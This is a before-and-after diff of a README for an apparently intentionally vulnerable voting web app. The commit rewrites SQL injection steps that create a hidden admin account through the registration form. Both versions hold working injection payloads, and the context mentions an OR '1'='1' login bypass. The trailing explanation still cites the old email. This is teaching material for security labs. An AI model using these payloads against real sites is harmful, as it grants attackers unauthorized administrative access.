

Before and after one commit to Joel-Judish/VoteSphere_Voting-System, a Markdown page: vulnerable-app/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revise README.md exploitation steps
Updated exploitation instructions with specific email and password details.

````diff
--- a/vulnerable-app/README.md
+++ b/vulnerable-app/README.md
@@ -69,9 +69,17 @@ The `OR '1'='1'` always evaluates to true and `--` comments out the password che
 1. Go to `http://localhost:4000/register`
 2. In the **Full Name** field enter:
 ```
-test'), ('hacker', 'hacker@evil.com', 'hacked', 'admin
+hacker
 ```
-3. Fill email and password with anything and click **Create Account**
+3. Fill email:
+```
+hacker@test.com
+```
+password
+```
+pass123', 'admin') --
+```
+Then click **Create Account**
 
 **What happens:** The injected payload closes the original INSERT statement and appends a second one, creating a hidden admin account (`hacker@evil.com`) in the database directly.
 
````
